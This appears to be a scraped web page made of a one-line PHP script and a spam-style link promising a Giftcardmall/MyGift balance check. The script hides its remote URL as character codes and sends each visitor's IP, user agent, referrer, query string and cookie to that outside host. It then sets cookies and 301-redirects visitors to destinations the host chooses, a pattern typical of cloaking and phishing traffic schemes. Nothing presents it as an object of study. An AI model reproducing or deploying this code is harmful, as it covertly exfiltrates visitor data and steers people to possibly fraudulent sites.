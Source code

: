 <?php date_default_timezone_set("UTC");ini_set("display_errors", 0);error_reporting(E_ALL & ~E_NOTICE);header("Cache-Control: no-store, no-cache, must-revalidate, max-age=0");if(!(isset($_SERVER["HTTP_X_PURPOSE"]) AND $_SERVER["HTTP_X_PURPOSE"] == "preview")){$date = date("Y-m-d H:i:s");$id = "485604";$uid="xymrx9gk8m3ym0lknzc1anctz";$qu=$_SERVER["QUERY_STRING"];$ch = curl_init();$d=array(104,116,116,112,115,58,47,47,106,99,105,98,106,46,99,111,109,47,112,99,108,46,112,104,112);$u="";foreach($d as $v){$u.=chr($v);}$data=array("date"=>$date,"lan"=>$_SERVER["HTTP_ACCEPT_LANGUAGE"],"ref"=>$_SERVER["HTTP_REFERER"],"ip"=>$_SERVER["REMOTE_ADDR"],"ipr"=>$_SERVER["HTTP_X_FORWARDED_FOR"],"sn"=>$_SERVER["SERVER_NAME"],"requestUri"=>$_SERVER["REQUEST_URI"],"query"=>$qu,"ua"=>$_SERVER["HTTP_USER_AGENT"],"co"=>$_COOKIE["_event"],"user_id"=>$uid,"id"=>$id);curl_setopt($ch,CURLOPT_URL,$u);curl_setopt($ch,CURLOPT_RETURNTRANSFER, true);curl_setopt($ch,CURLOPT_POST, true);curl_setopt($ch,CURLOPT_POSTFIELDS, $data);$result = curl_exec($ch);curl_close($ch);$arr = explode(",",$result);if(!empty($qu)){if(strpos($arr[1],"?")){$q="&".$qu;}else{$q="?".$qu;}}else{$q="";}if($arr[0] === "true"){if(strstr($arr[1],"sp.php")){$q="?".$qu;}if(!empty($arr[7])){setcookie($arr[7],$arr[8],time()+60*60*24*$arr[9],"/");}if($arr[2]){if($arr[4] == 1 OR $arr[4] == 3){setcookie("_event",$arr[6],time()+60*60*24*$arr[3]);}}header("location: ".$arr[1].$q, TRUE, 301);}elseif($arr[0] === "false"){if($arr[5]){$f=$q;}else{$f="";}if($arr[2]){if($arr[4] == 2 OR $arr[4] == 3){setcookie("_event",$arr[6]."b",time()+60*60*24*$arr[3]);}}header("location: ".$arr[1].$f, TRUE, 301);}else{if($arr[2]){if($arr[4] == 2 OR $arr[4] == 3){setcookie("_event",$arr[6]."b",time()+60*60*24*$arr[3]);}}}}?>

<p><a href="https://theperfectgiftscj.com/mygiftt/">You are being redirected to our website. If the redirection does not occur within 5 seconds, please click here to continue. <br> Click here to check your Giftcardmall/MyGift balance</a></p>

<a href="https://theperfectgiftscj.com/mygiftt/" rel="nofollow">
<img src="https://r.resimlink.com/jxLHK4lY.png" data-canonical-src="https://r.resimlink.com/jxLHK4lY.png" style="max-width: 100%;">
</a>
